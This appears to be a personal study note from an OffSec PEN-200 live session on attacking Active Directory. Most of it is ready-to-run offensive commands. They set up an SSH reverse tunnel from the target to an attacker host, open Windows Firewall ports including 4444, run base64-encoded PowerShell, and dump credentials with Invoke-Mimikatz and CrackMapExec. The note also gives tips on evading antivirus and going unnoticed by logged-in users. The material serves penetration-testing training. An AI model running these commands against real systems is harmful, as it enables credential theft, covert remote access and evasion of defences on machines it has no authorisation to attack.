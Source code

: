 # OffSec Live: PEN-200

author:: Nathan Acks  
date:: 2022-08-31

# Active Directory Enumeration & Exploitation, Part 3

To use SSH as a generic SOCKS5 proxy, just use remote port forwarding.

```bash
# This command is run from the TARGET and connects back to the ATTACKER
# box. PORT on the ATTACKER box can then be used as a SOCKS5 proxy via
# proxychains, etc.
#
ssh -R $PORT $USER@$ATTACKER
```

To remember the difference between local and remote port forwarding, think of local port forwarding as connecting a port on the local machine to a remote service, while remote port forwarding connects a port on a remote machine to the local service - or SSH instance (if *only* a port is given)! Setting up SSH as a proxy doesn't make sense in the context of the local port forwarding, but can make sense for remote port forwarding.

(SSH port forwards are always read as `$FROM_MACHINE:$FROM_PORT:$TO_MACHINE:$TO_PORT`.)

Check Windows Firewall state:

```powershell
netsh advfirewall show currentprofile
```

See all Windows Firewall rules for inbound connections:

```powershell
netsh advfirewall firewall show rule dir=in name=all
```

Be aware that most built-in rules on Windows are bound to particular applications. But admins are lazy, and seldom bind custom rules to explicit applications. There's no 100% reliable way to identify such rules, but they'll often have obvious naming conventions.

See all Windows Firewall rules for outbound connections:

```powershell
netsh advfirewall firewall show rule dir=out name=all
```

In general you don't want to turn off the Windows Firewall, as doing so will generate a popup for any users currently logged into the machine.

Punch a hole in the Windows Firewall for ports 80, 443, and 4444:

```powershell
netsh advfirewall firewall add action=allow name=tunnel_in `
      dir=in protocol=tcp localport="80,443,4444"
netsh advfirewall firewall add action=allow name=tunnel_out `
      dir=out protocol=tcp localport="80,443,4444"
```

Encode a command to base64 in PowerShell:

```powershell
$Text = "$ONE_LINE_POWERSHELL_COMMAND"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

Run this using:

```powershell
powershell.exe -enc $EncodedText
```

See logged in users with PowerView.ps1:

```powershell
Get-NetLoggedon | select UserName
```

Mimikatz binaries are generally detected by AV on download these days, but fortunately there's a PowerShell reimplementation that can be run after bypassing AMSI.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note, however, that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

AV can also by bypassed using CrackMapExec:

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD --lsa 2> /dev/null
```

This only works if `$TARGET_USER` is an admin. If a user's password is currently in memory, CrackMapExec will dump this as well (so then you don't need to crack the hash!).

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [EmpireProject / Empire / data / module_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
